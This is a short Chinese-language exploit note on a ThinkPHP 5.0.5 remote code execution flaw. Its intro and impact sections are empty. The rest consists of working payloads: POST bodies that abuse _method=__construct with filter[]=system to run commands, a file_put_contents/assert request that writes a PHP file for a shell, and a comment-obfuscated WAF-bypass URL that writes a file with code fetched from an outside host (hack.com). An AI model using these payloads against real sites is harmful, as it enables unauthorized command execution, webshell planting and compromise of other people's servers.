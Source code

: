 ```yaml
---
title: Thinkphp 5.0.5
id: zhfly3148
---
```


# Thinkphp 5.0.5

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

> www.0-sec.org/?s=index/index

```
POST

s=whoami&_method=__construct&method=POST&filter[]=system

aaaa=whoami&_method=__construct&method=GET&filter[]=system `_method=__construct&method=GET&filter[]=system&get[]=whoami` 
```

> getshell

```
POST `s=file_put_contents(‘zerosec.php’,’<?php phpinfo();’)&_method=__construct&method=POST&filter[]=assert` 
```

### 补充

waf对eval进行了拦截

禁止了assert函数对eval函数后面的括号进行了正则过滤

对file_get_contents函数后面的括号进行了正则过滤

```
http://www.0-sec.org/?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=2.php&vars[1][1]=<?php /*1111*//***/file_put_contents/*1**/(/***/'index11.php'/**/,file_get_contents(/**/'https://www.hack.com/xxx.js'))/**/;/**/?> 
```